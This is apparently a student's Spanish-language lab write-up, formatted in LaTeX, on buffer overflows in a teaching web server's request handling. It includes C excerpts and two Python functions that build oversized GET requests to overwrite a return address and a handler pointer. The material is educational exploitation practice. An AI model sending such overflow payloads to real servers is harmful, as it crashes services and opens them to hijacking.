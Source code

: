 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{enumerate}
\item En la línea 65 del archivo zoodkd.c, se crea un buffer y en la línea 70 se llena ese buffer. Dentra de 
la función 'http\_request\_line', se copia la url a es buffer. Si la url es más grande que ese buffer, entoncesse 
produce un desbordamiento
\begin{lstlisting}
static void process_client(int fd)
{
    static char env[8192];  /* static variables are not on the stack */
    static size_t env_len;
    char reqpath[2048];
    const char *errmsg;
    int i;

    /* get the request line */
    if ((errmsg = http_request_line(fd, reqpath, env, &env_len)))
        return http_err(fd, 500, "http_request_line: %s", errmsg);

\end{lstlisting}
\end{enumerate}

\subsection{Efercicio 2:}
\textbf{Pick two buffer overflows out of what you have found for later exercises.  The first must overwrite a return address
on the stack, and the second must overwrite some other data structure that you will use to take over the control flow of the program.}

\begin{enumerate}
 \item La primera vulnerabilidad explotada es la número 5 del ejercicio anterior. Con una url de más de 2048 caracteres se cae
 el programa al finalizar esa función porque la dirección de retorno es corrupta. Es una forma fácil de inyectar código. El
 código siguiente muestra el exploit.
\begin{lstlisting}
def build_exploit(shellcode):
    req =   "GET /"
    for i in range(0,3000):
        req = req + 'A'

    req = req + " HTTP/1.0\r\n" + \
        "\r\n"
    return req
\end{lstlisting}
  \item La segunda vulnerabilidad explotada es la número 1 del ejercicio anterior. Con una url de más de 1024 caracteres pero no
  mayor a 2048, porque sino incurriríamos en la vulnerabilidad anterior, se cae el programa al llamar a la función que está 
  dentro de la dirección 'handler'. Es una forma fácil de cambiar el flujo del programa para ocasionar más problemas o abrir
  un archivo no autorizado. El código siguiente muestra el exploit:
\begin{lstlisting}
def build_exploit(shellcode):
    req =   "GET /"
    for i in range(0,1500):
        req = req + 'A'

    req = req + " HTTP/1.0\r\n" + \
        "\r\n"
    return req

\end{lstlisting}
\end{enumerate}
\end{document}
